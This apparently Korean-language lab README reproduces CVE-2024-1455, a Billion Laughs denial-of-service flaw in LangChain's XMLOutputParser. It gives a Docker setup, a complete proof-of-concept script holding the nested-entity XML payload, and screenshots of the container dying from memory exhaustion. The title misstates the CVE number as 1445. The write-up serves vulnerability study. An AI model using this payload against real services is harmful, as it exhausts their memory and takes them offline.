 # Billion laughs Attack in LangChain (CVE-2024-1445)

영향을 받는 버전: langchain >=0,<0.1.14  
해당 취약점은 XXE 익스플로잇의 일종인 Billion Laughs Attack을 가능하게 한다.

## Description

**CVE-2024-1455**는 XXE 익스플로잇의 일종인 Billion Laughs Attack을 가능하게 한다.  
Billion Laughs Attack은 XML 파싱 프로세스를 악용한 XXE 취약점의 한 유형이다. 해당 공격은 XML 문서 내에 여러 계층의 엔티티를 중첩하여 XML 파서가 엔티티를 확인하고 확장하는 과정에서 과도한 CPU 및 메모리 리소스를 소모하게 만든다. 이러한 과도한 리소스 사용은 서비스 거부 공격(DoS)으로 이어져 영향을 받는 시스템의 가용성과 성능에 심각한 영향을 미친다.

---

## Environmental Construction

* 취약한 버전의 langchain과 해당 버전에 맞는 패키지를 찾아 `requirements.txt`를 구성한다.
* Langchain의 XMLOutputParser를 익스플로잇 할 수 있는 `poc.py`를 작성한다.
* 이후 `Dockerfile`과 `docker-compose.yml` 파일을 작성한다.

---

## Proof of Concept

```
docker compose up
```
* 해당 명령으로 `docker-compose.yml` 파일을 실행한다.
  
```
from langchain.output_parsers import XMLOutputParser


payload="""<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>"""

parser = XMLOutputParser()

parser.parse(payload)
```
* 이후 해당 `poc.py`가 실행된다.

---

## Output
* Successful Exploit:  
![image](https://github.com/user-attachments/assets/a16acad6-4456-4c93-a7bc-08b139f4db3f)
* 해당 이미지처럼 137 코드가 반환되면서 컨테이너가 종료되면 익스플로잇 성공.
* 137 코드는 Docker의 OOM(Out of Memory) 에러로 Billion Laughs Attack으로 인해 컨테이너의 메모리가 모두 소모되어 OOM 에러가 발생한다.
<br>

![after2](https://github.com/user-attachments/assets/a9a85804-2508-4f2b-99ee-26c0a7cbc1ac)
* 보다 자세한 결과 확인을 위해 `Dockerfile`에서 `/bin/bash`를 실행하게 수정 후 `htop`으로 리소스 상태를 확인해본다.
* `poc.py` 실행 결과 CPU 사용량과 메모리 소비량이 급격히 늘어나는 것을 볼 수 있다.
<br>

![after3](https://github.com/user-attachments/assets/e54a2d39-152c-4a4a-8455-db201cf5386b)
* 메모리 과다 사용으로 인해 컨테이너에서 해당 프로세스를 SIGKILL로 종료한다.

---

## Reference
https://cve.mitre.org/cgi-bin/cvename.cgi?name=2024-1455  
https://data.safetycli.com/vulnerabilities/CVE-2024-1455/66962/  
https://huntr.com/bounties/4353571f-c70d-4bfd-ac08-3a89cecb45b6
